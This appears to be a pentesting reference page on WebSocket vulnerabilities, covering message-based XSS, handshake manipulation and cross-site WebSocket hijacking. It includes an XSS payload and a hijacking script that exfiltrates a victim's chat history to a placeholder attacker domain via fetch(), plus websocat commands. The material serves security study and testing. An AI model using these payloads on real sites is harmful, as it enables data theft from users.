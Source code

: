 # Websockets

Sockets in web development refer to communication endpoints that allow bidirectional data flow between a client and a server in real-time, enabling dynamic and interactive web applications.

### Table of Content

- [Manipulating WebSocket messages](#manipulating-websocket-messages-to-exploit-vulnerabilities)
- [Manipulating the WebSocket handshake](#manipulating-the-websocket-handshake-to-exploit-vulnerabilities)
- [Using cross-site WebSockets hijacking](#using-cross-site-websockets)

## Manipulating WebSocket messages to exploit vulnerabilities

For example, suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server:

```json
{"message":"Hello Carlos"}
```

The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows:

```html
<td>Hello Carlos</td>
```

In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

```html
{"message":"<img src=1 onerror='alert(1)'>"}
```

## Manipulating the WebSocket handshake to exploit vulnerabilities

Some WebSockets vulnerabilities can only be found and exploited by manipulating the WebSocket handshake. These vulnerabilities tend to involve design flaws, such as:

- Misplaced trust in HTTP headers to perform security decisions, such as the X-Forwarded-For header.
- Flaws in session handling mechanisms, since the session context in which WebSocket messages are processed is generally determined by the session context of the handshake message.
- Attack surface introduced by custom HTTP headers used by the application.

## Using cross-site WebSockets hijacking

Since a cross-site WebSocket hijacking attack is essentially a CSRF vulnerability on a WebSocket handshake, the first step to performing an attack is to review the WebSocket handshakes that the application carries out and determine whether they are protected against CSRF.

In terms of the normal conditions for CSRF attacks, you typically need to find a handshake message that relies solely on HTTP cookies for session handling and doesn't employ any tokens or other unpredictable values in request parameters.

For example, the following WebSocket handshake request is probably vulnerable to CSRF, because the only session token is transmitted in a cookie:

```
GET /chat HTTP/1.1
Host: normal-website.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
```

Note:

*The Sec-WebSocket-Key header contains a random value to prevent errors from caching proxies, and is not used for authentication or session handling purposes.*

If the WebSocket handshake request is vulnerable to CSRF, then an attacker's web page can perform a cross-site request to open a WebSocket on the vulnerable site. What happens next in the attack depends entirely on the application's logic and how it is using WebSockets. The attack might involve:

- Sending WebSocket messages to perform unauthorized actions on behalf of the victim user.
- Sending WebSocket messages to retrieve sensitive data.
- Sometimes, just waiting for incoming messages to arrive containing sensitive data.

For example the websocket server sends back the history of the conversation of a user if a msg with "READY" is sent, then a simple XSS establishing the connection (the cookie will be sent automatically to authorise the victim user) sending "READY" will be able to retrieve the history of the conversation.:

```html
<script>
    websocket = new WebSocket('wss://your-websocket-URL')
    websocket.onopen = start
    websocket.onmessage = handleReply
    function start(event) {
    websocket.send("READY"); //Send the message to retreive confidential information
    }
    function handleReply(event) {
    //Exfiltrate the confidential information to attackers server
    fetch('https://your-collaborator-domain/?'+event.data, {mode: 'no-cors'})
    }
</script>
```

## linux command

You can use websocat to establish a raw connection with a websocket.

```sh
websocat --insecure wss://10.10.10.10:8000 -v
```
Or to create a websocat server:

```sh
websocat -s 0.0.0.0:8000 #Listen in port 8000
```